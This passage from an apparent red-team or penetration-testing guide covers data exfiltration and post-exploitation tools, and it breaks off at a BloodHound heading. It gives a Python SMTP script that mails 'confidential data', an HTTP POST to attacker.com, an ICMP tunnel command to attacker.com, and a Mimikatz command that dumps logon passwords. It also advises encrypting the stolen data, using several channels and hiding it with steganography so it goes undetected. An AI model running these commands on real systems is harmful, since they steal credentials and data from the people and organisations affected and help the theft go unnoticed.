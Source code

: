     import smtplib
    from email.mime.text import MIMEText

    msg = MIMEText('Confidential data content')
    msg['Subject'] = 'Exfiltration'
    msg['From'] = 'attacker@example.com'
    msg['To'] = 'receiver@example.com'

    s = smtplib.SMTP('smtp.example.com')
    s.sendmail('attacker@example.com', ['receiver@example.com'], msg.as_string())
    s.quit()

D. HTTP/HTTPS Exfiltration

    Description: Using standard HTTP or HTTPS requests to send data to an external server.
    Tools: curl, wget, Python requests library.
    Example:

    python

    import requests

    data = {'key': 'value'}
    response = requests.post('http://attacker.com/receive', data=data)

E. ICMP Exfiltration

    Description: Sending data using ICMP packets, often overlooked by firewalls and intrusion detection systems.
    Tools: Ptunnel, custom scripts.
    Example:

    bash

    ./ptunnel -p 192.168.1.1 -lp 8000 -da attacker.com

Recommendations:

    Data Compression and Encryption: Compress and encrypt data before exfiltration to reduce size and prevent interception.
    Diverse Channels: Use multiple exfiltration channels to reduce the risk of detection and blockage.
    Steganography: Embed data within images or files to hide the presence of exfiltrated data.

5. Post-Exploitation Tools and Techniques

Post-exploitation activities focus on maintaining control, exploring the compromised network, gathering intelligence, and preparing for data exfiltration or further attacks.
Key Tools:
A. Mimikatz

    Description: A tool for extracting plaintext passwords, hash dumps, PIN codes, and Kerberos tickets from memory.
    Use Cases: Credential harvesting, lateral movement, privilege escalation.
    Example:

    powershell

    Invoke-Mimikatz -Command '"privilege::debug" "log" "sekurlsa::logonpasswords"'

B. BloodHound
